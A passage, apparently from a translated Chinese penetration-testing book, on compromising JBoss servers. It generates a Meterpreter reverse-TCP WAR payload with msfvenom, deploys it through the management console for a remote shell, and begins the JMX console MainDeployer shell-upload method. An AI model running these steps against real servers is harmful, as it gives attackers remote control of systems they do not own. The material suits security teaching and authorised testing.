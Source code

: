 这将把我们带到一个新页面，在那里我们可以选择上传 WAR 文件。可以使用`msfvenom`和以下命令生成 WAR 文件：

```
msfvenom -p java/meterpreter/reverse_tcp lhost=<Metasploit_Handler_IP> lport=<Metasploit_Handler_Port> -f war -o <filename>.war
```

生成基于 WAR 的 Metasploit 负载后，我们将把文件上载到控制台的 Web 应用（WAR）部分，如下面的屏幕截图所示：

![](img/ecada5d0-cd8f-4a8f-a965-fa3c580e165d.png)

成功上传文件后，我们只需转到文件解压缩到的目录，并在 web 浏览器上打开它即可获得 MeterMeter 连接，如以下屏幕截图所示：

![](img/3ed42436-8f10-4367-bfb6-beea5686b4ff.png)

在运行有效载荷之前，我们需要考虑一些事情，最重要的是检查出口连接。如果执行了有效负载，但防火墙阻止了到服务器的出口流量（出站连接），那么我们需要找到一种方法来获得反向 shell。如果没有办法，我们可以选择绑定到服务器的连接。

# 通过 JMX 控制台（MainDeployer 方法）进行攻击

考虑下面的官方 JBOSS 文档中的引用（在 www.https://docs.jboss.org/jbossas/docs/Getting_Started_Guide/4/html-single/index.html ：

JMX 控制台是 JBoss 管理控制台，它提供组成服务器的 JMX MBean 的原始视图。它们可以提供有关正在运行的服务器的大量信息，并允许您修改其配置、启动和停止组件等

如果我们发现 JBoss 的开放实例具有未经验证的 JMX 控制台访问权限，我们可以使用`MainDeployer`选项将 shell 上传到服务器。这允许我们从 URL 获取 WAR 文件并将其部署到服务器上。JMX 控制台显示在以下屏幕截图中：
